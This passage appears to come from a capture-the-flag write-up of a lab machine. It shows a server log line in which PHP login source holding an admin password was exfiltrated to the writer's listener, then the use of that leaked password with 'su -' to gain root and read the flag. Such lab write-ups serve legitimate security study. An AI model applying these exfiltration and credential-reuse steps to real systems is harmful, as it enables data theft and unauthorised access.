10.129.243.216 - - [02/Feb/2025 18:21:24] "GET /?response=%3C%3Fphp%0A%24valid_username%20%3D%20%27admin%27%3B%0A%24valid_password%20%3D%20%27IKw75eR0MR7CMIxhH0%27%3B%0A%0Aif%20(!isset(%24_SERVER%5B%27PHP_AUTH_USER%27%5D)%20%7C%7C%20!isset(%24_SERVER%5B%27PHP_AUTH_PW%27%5D)%20%7C%7C%20%0A%20%20%20%20%24_SERVER%5B%27PHP_AUTH_USER%27%5D%20!%3D%20%24valid_username%20%7C%7C%20%24_SERVER%5B%27PHP_AUTH_PW%27%5D%20!%3D%20%24valid_password)%20%7B%0A%20%20%20%20%0A%20%20%20%20header(%27WWW-Authenticate%3A%20Basic%20realm%3D%22Employee%20Management%22%27)%3B%0A%20%20%20%20header(%27HTTP%2F1.0%20401%20Unauthorized%27)%3B%0A%20%20%20%20exit%3B%0A%7D%0A%0Aheader(%27Location%3A%20dashboard.php%27)%3B%0Aexit%3B%0A%3F%3E%0A%0A HTTP/1.1" 200 -
```

| Password           |
| ------------------ |
| IKw75eR0MR7CMIxhH0 |

### Password Reuse

Through `password reuse` we could switch to `root` and grab the `root.txt`.

```c
axel@cat:~$ su -
Password:
root@cat:~#
```

## root.txt

```c
root@cat:~# cat root.txt
b5ab3f9cb3e8f1207c654e85601ea362
```
